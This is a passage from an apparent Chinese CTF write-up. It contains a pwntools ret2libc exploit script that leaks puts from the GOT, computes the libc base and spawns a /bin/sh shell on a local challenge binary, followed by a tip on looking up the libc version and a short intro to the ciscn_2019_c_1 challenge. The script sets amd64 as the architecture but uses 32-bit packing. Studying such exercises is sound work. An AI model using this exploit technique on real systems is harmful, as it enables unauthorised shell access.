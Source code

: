 ### EXP2

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4])
print("puts_addr: ", hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base))
sys_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'A'*104
payload2 += p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
gdb.attach(sh, 'b gets')
sh.sendline(payload2)
sh.interactive()
```

### LIBC 版本查找

> 虽然说现在题基本上都有`libc.so`，但是以防万一还是给一个求 libc 版本的方法

[libc database search](https://libc.blukat.me/)

使用方法很简单，因为 libc 的低十二位不会变，所以给出已泄露的函数的地址，就可以在这里找到对应的 libc.so 版本及相关 Offset

![image-20211214164955101](https://oss.nova.gal/img/image-20211214164955101.png)

## ciscn_2019_c_1

[题目](https://buuoj.cn/challenges#ciscn_2019_c_1)

大体上和 ret2libc3 相同，不过是 64bits 的，算是一个从 32->64 的转变的题目
